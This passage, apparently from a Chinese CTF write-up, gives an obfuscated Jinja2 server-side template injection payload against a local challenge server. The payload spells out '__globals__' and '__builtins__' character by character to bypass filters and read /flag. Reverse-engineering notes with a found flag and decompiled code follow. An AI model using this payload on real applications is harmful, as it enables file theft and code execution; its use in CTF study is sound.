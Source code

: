 最终 paylaod

```
http://127.0.0.1:19009/?name=`{`%set pc = g|lower|list|first|urlencode|first%`}``{`%set c=dict(c=1).keys()|reverse|first%`}``{`%set udl=dict(a=pc,c=c).values()|join %`}``{`%set ds=dict(a=ds,c=udl%(95)).values()|join %`}``{`%set ds=dict(a=ds,c=udl%(95)).values()|join %`}``{`%set ds=dict(a=ds,c=udl%(105)).values()|join %`}``{`%set ds=dict(a=ds,c=udl%(110)).values()|join %`}``{`%set ds=dict(a=ds,c=udl%(105)).values()|join %`}``{`%set ds=dict(a=ds,c=udl%(116)).values()|join %`}``{`%set ds=dict(a=ds,c=udl%(95)).values()|join %`}``{`%set ds=dict(a=ds,c=udl%(95)).values()|join %`}` 
`{`%set ds2=dict(a=ds2,c=udl%(95)).values()|join %`}``{`%set ds2=dict(a=ds2,c=udl%(95)).values()|join %`}``{`%set ds2=dict(a=ds2,c=udl%(103)).values()|join %`}``{`%set ds2=dict(a=ds2,c=udl%(108)).values()|join %`}``{`%set ds2=dict(a=ds2,c=udl%(111)).values()|join %`}``{`%set ds2=dict(a=ds2,c=udl%(98)).values()|join %`}``{`%set ds2=dict(a=ds2,c=udl%(97)).values()|join %`}``{`%set ds2=dict(a=ds2,c=udl%(108)).values()|join %`}``{`%set ds2=dict(a=ds2,c=udl%(115)).values()|join %`}``{`%set ds2=dict(a=ds2,c=udl%(95)).values()|join %`}``{`%set ds2=dict(a=ds2,c=udl%(95)).values()|join %`}` 
`{`%set i0=dict(a=i0,c=udl%(47)).values()|join %`}``{`%set i0=dict(a=i0,c=udl%(102)).values()|join %`}``{`%set i0=dict(a=i0,c=udl%(108)).values()|join %`}``{`%set i0=dict(a=i0,c=udl%(97)).values()|join %`}``{`%set i0=dict(a=i0,c=udl%(103)).values()|join %`}` 
`{`%set i1=dict(a=i1,c=udl%(95)).values()|join %`}``{`%set i1=dict(a=i1,c=udl%(95)).values()|join %`}``{`%set i1=dict(a=i1,c=udl%(98)).values()|join %`}``{`%set i1=dict(a=i1,c=udl%(117)).values()|join %`}``{`%set i1=dict(a=i1,c=udl%(105)).values()|join %`}``{`%set i1=dict(a=i1,c=udl%(108)).values()|join %`}``{`%set i1=dict(a=i1,c=udl%(116)).values()|join %`}``{`%set i1=dict(a=i1,c=udl%(105)).values()|join %`}``{`%set i1=dict(a=i1,c=udl%(110)).values()|join %`}``{`%set i1=dict(a=i1,c=udl%(115)).values()|join %`}``{`%set i1=dict(a=i1,c=udl%(95)).values()|join %`}``{`%set i1=dict(a=i1,c=udl%(95)).values()|join %`}` 
`{`%for k,v in (app|attr(ds)|attr(ds2)).items()%`}``{`%if (k|string )==i1  %`}``{``{`v.open(i0).read()`}``}``{`%endif%`}``{`%endfor%`}`
```



## re

### <a class="reference-link" name="%E7%99%BD%E7%BB%99.exe"></a>白给.exe

直接在程序里就可以找到 flag

用 ida 查看。第一个在 data 段，第二个在 main 函数的反汇编窗口中可以看见。

**flag`{`kjdfeoijfeoncknafljfsdklf679756876`}` **

### <a class="reference-link" name="98%20%E5%B9%B4%E7%9A%84%EF%BC%8C%E6%88%91%E7%8E%A9%E4%B8%8D%E8%BF%87%E5%A5%B9"></a>98 年的，我玩不过她

```
_int64 sub_140011950() 
`{` 
  char *v0; // rdi 
  signed __int64 i; // rcx 
  char v3; // [rsp+0h] [rbp-20h] 
  char Buffer[64]; // [rsp+28h] [rbp+8h] 
  char v5[44]; // [rsp+68h] [rbp+48h] 
  int j; // [rsp+94h] [rbp+74h] 
  char Str1; // [rsp+B8h] [rbp+98h] 
  v0 = &amp;v3; 
  for ( i = 106i64; i; --i ) 
  `{` 
    *(_DWORD *)v0 = -858993460; 
    v0 += 4; 
  `}` 
  sub_140011087(&amp;unk_140021006); 
  sub_1400111D6("miss fish tell you the secret\n"); 
  sub_1400111D6("miss fish:%s\n"); 
  sub_1400111D6("please tell me your flag\n"); 
```
